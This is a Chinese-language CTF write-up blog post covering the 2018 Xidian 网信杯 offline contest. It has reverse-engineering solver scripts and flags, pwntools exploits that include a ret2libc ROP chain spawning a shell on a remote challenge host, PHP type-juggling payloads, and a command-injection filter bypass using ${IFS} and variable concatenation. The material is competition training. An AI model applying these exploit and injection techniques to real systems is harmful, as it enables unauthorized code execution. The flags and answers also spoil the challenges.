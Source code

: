 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      西电网信杯线下wp 		 # 标题 
subtitle:   西电网信杯               # 副标题
date:       2018-07-15 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
---
```


# 西电网信杯线下赛题目wp
>今年师傅们出题挺好的 就是 题目分布有点倾斜 对于专攻某些方面的dalao们不太友好

## RE
>[题目包](../files/xdctf_re.zip)
   * RE1  
   送分题目 使用od直接nop掉判断即可
   * RE2  
   首先丢进ida
   ![](https://s1.ax1x.com/2018/07/26/PN1Zxs.png)
   根据分析,我们可以得出flag格式:  
   flag{x*32}  
   我们可以注意到v11是ebp-13h,v11是'}'  
   那么src的开头为ebp-33h,则src的长度就是0x33-0x13 --> 32位
   接下来讲src赋给了dst
   跟进接下来的函数
   ![](https://s1.ax1x.com/2018/07/27/PUmJeS.png)
   我们可以发现他实际就是将dst与另一个数组中的值进行了异或  
   继续跟进，
   ![](https://s1.ax1x.com/2018/07/27/PUmwzq.png)
   发现实际就是对v7数组进行赋值,最后再用v7进行比对,那么我们很容易写出程序 

 
```python
str1 = "23gjf13au98hk3a1090zp8qjs41h39jp"
add = [0x04,0x0F,0x0B,0x1E,0x0E,0x14,0x1F,0x09,0x17,0x02,0x19,0x1C,0x12,0x10,0x00,0x08,0x11,0x01,0x15,0x03,0x0A,0x1D,0x0C,0x16,0x18,0x0D,0x1B,0x05,0x07,0x06,0x13,0x1A]
str2 = ''
dict1 = [0x53,0x45,0x5C,0x1E,0x50,0x13,0x2F,0x78,0x04,0x53,0x58,0x4A,0x43,0x01,0x41,0x2A,0x08,0x40,0x67,0x2F,0x0C,0x4A,0x12,0x2E,0x41,0x6C,0x05,0x54,0x40,0x12,0x5B,0x4F]
flag = 'flag{'
for i in range(len(str1)):
    str2 += chr(ord(str1[add[i]]))
for i in range(len(str2)):
    flag += chr( ord(str2[i])^dict1[i] )
flag += '}'
print flag
```


   得到flag  
   >flag{5t4t1c_An4lys1s_1s_E4sy_2_me!!!~}  

* RE3  
    ![](https://s1.ax1x.com/2018/07/27/PUnVlq.png)
    看到这两个字符串，我们就要大胆的猜测是存在base64和迷宫  
    将下面一串字符重新排列之后  
    ![](https://s1.ax1x.com/2018/07/27/PUnNnK.png)  
    再分析代码
    ![](https://s1.ax1x.com/2018/07/27/PUnwAe.png)  
    ```
    2 -> down  
    1 -> up  
    3 -> left  
    4 -> right  
    ```
    我们可以得出在base64前的字符  
    >222441144222    

    同时，我们发现他的base64编码表是有替换的，于是可得出解密程序:
  
```python  
from base64 import b64encode
import string
s = "222441144222"
list1 = "0123456789ABCDEabcdefghijklFGHIJKLMNOPQRSTUVWXYZmnopqrstuvwxyz+="
list2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
str1 = b64encode(s)
flag = ''
for i in str1:
    num = list2.index(i)
    flag += list1[num]
print flag
```  
> flag:CN8oD3bnCebqCN8o  


* Mobile  
    也是一个送分题....直接dex2jar就可以获得源码  
    很容易得知是rsa加密,且私钥通过解密可知
```python
f = open("key.txt","r")
key = f.read()
f.close()
key1 = ''
for i in range(len(key)):
    if(i % 2 == 0):
        temp = ord(key[i])+2
    else:
        temp = ord(key[i])-1
    key1 += chr(temp)
print key1
```


根据密文与私钥即可解密获得flag

## pwn
* pwn1
又是一道送分题  
![](https://s1.ax1x.com/2018/07/27/PUungI.png)  
![](https://s1.ax1x.com/2018/07/27/PUuuvt.png)  
![](https://s1.ax1x.com/2018/07/27/PUuMKP.png)  
很显然可以直接将ret覆盖成system调用地址
```python
from pwn import *
s = process("./ez_pwn")
system = 0x04007A1
s.sendline("5438")
payload = 'A'*0x20+p64(1)+p64(system)
print payload
s.sendline(payload)
s.interactive()
```

* pwn2  
  一道传统的菜单题
  ![](https://s1.ax1x.com/2018/07/27/PUGhUP.png)
  漏洞出现在这个函数  
  ![](https://s1.ax1x.com/2018/07/27/PUGIC8.png)
  read_x 实际上就是一个read函数,显然我们可以溢出  
  padding = 0x40+8  
  就可以控制ret  
  同时利用puts和给予的libc就可以leak出system  
  其中需要注意的就是 64位传参使用的是寄存器
  >从第一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递  

  对Rop的搜索使用ROPgadget即可  
  所以对整个的程序的编写思路就是:  
  1. leak出偏移,返回主函数
  2. 调用system,获得shell  
  exp如下:


```python
#-*-coding=utf-8-*-
from pwn import *

# s = process('./relro')

#暂时靶机还开着
s = remote('118.25.227.117',10000)
elf = ELF("./relro")
libc = ELF("./libc64.so")

put_plt = elf.plt['puts']
put_got = elf.got['puts']
pop_rdi = 0x0000000000400cd3
ret = 0x04008F2

#Get Offset
s.sendline("1")
payload = 'A'*0x40+'A'*8+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(ret)
s.sendline(payload)
s.recvuntil("save message success.\n")
put_real = u64(s.recvline(keepends=False)[0:8].ljust(8,'\x00'))
offset = put_real-libc.symbols['puts']

system_add = libc.symbols['system']+offset
bin_sh = next(libc.search('/bin/sh'))+offset
s.sendline("1")
payload = 'A'*0x40+'a'*8+p64(pop_rdi)+p64(bin_sh)+p64(system_add)+p64(1)
print payload
s.sendline(payload)
s.interactive()
```  
> flag:flag{I_am_on_your_behind}



## WEB  
* web1  
    送分,直接变量覆盖出GLOBAL全局变量就可以
* web2  


```php
<?php
error_reporting(0);
require 'flag.php';
$value = $_GET['value'];
$password = $_GET['password'];
$username = '';

for ($i = 0; $i < count($value); ++$i) {
    if ($value[$i] > 32 && $value[$i] < 127) unset($value);
    else $username .= chr($value[$i]);
    if ($username == 'w3lc0me_To_xid1an' && intval($password) < 232 && intval($password + 1) > 233) {
        echo 'Hello '.$username.'!', '<br>', PHP_EOL;
        echo $flag, '<hr>';
    }
}

highlight_file(__FILE__);
```  


    源码如上 绕过这些限制需要几个小trick
1. chr函数在转换时会自动取模256,所以我们只需要在原本ascii码基础上+256即可
2. intval()在处理16进制时存在问题,但强制转换时时正常的.
> payload: value[0]=375&value[1]=307&value[2]=364&value[3]=355&value[4]=304&value[5]=365&value[6]=357&value[7]=351&value[8]=340&value[9]=367&value[10]=351&value[11]=376&value[12]=361&value[13]=356&value[14]=305&value[15]=353&value[16]=366&password=0x123  
flag: flag{bd6c746d0196a31e42c2a1ac7e7dbc4b}

* web3
    一个命令执行,大部分命令都被过滤了,但我们可以考虑使用拼接,同时空格可以使用tab绕过或者使用${IFS}绕过.  
    关于拼接,bash中可以使用变量的方式,例如:  
    ```a=ca;b=t;$a$b flag```

>payload: 127.0.0.1\`a=c;b=at;$a$b{此处为tab}flag\`  